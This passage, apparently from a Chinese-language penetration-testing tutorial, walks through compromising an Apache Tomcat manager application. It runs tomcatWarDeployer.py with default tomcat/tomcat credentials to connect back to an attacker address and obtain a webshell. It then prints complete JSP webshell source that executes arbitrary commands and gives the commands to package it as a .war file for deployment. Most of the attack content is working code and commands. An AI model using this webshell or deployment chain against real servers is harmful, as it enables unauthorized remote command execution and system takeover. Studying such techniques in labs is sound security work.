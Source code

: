 ```
./tomcatWarDeployer.py -U tomcat -P tomcat -H 192.168.1.108 -p 4567 192.168.1.101:8080
```



在执行上面的命令时，我直接获得了webshell，你可以在下面给出的图像中观察它。

![img](https://i2.wp.com/4.bp.blogspot.com/-wykeYXUswl8/XBUvSZeSwCI/AAAAAAAAbwI/h7fwe1kZ-Tw_VUSEPnYc9iJLvhrA6nIxwCLcBGAs/s1600/9.png?w=687&ssl=1)

## 4.生成JSP Webshell

在本部分中，我们将了解如何生成和部署Webshell以在Tomcat manger应用程序上执行命令。

首先，我们需要编写Webshell并将其打包为.war文件格式。要编写jsp Webshell，我们使用以下代码，我在此链接中找到了这些代码：*https*：*//pentesterlab.com/exercises/cve-2007-1860/course*

```
<span style="color: #000000;"><FORM METHOD=GET ACTION='index.jsp'>
<INPUT name='cmd' type=text>
<INPUT type=submit value='Run'>
</FORM>
<%@ page import="java.io.*" %>
<%
   String cmd = request.getParameter("cmd");
   String output = "";
   if(cmd != null) {
      String s = null;
      try {
         Process p = Runtime.getRuntime().exec(cmd,null,null);
         BufferedReader sI = new BufferedReader(new InputStreamReader(p.getInputStream()));
         while((s = sI.readLine()) != null) { output += s+"</br>"; }
      }  catch(IOException e) {   e.printStackTrace();   }
   }
%>
<pre><%=output %></pre></span>
```



将代码保存为index.jsp，然后执行以下命令将其打包为.war文件。

```
mkdir webshell
cp index.jsp webshell/
cd webshell
jar -cvf ../webshell.war *
```



在上面的命令的帮助下，您将获得一个war文件，您可以在tomcat manger应用程序中部署该文件。

![img](https://i2.wp.com/3.bp.blogspot.com/-EhkeycNHXYM/XBUvOjdjQqI/AAAAAAAAbvg/lFAMSg6cR7EEvLYzx8188-_W7vR5HV0bACLcBGAs/s1600/11.png?w=687&ssl=1)

从下面给出的图像中可以看出，我已经部署了成功上传的webshell.war文件，现在让我们点击这个文件来执行它。

![img](https://i2.wp.com/2.bp.blogspot.com/-YVJErrwk7k0/XBUvOwpwqDI/AAAAAAAAbvk/V6b_8cFiz9QcAM_u7Z5ydGY_22G8IWaOQCLcBGAs/s1600/12.png?w=687&ssl=1)
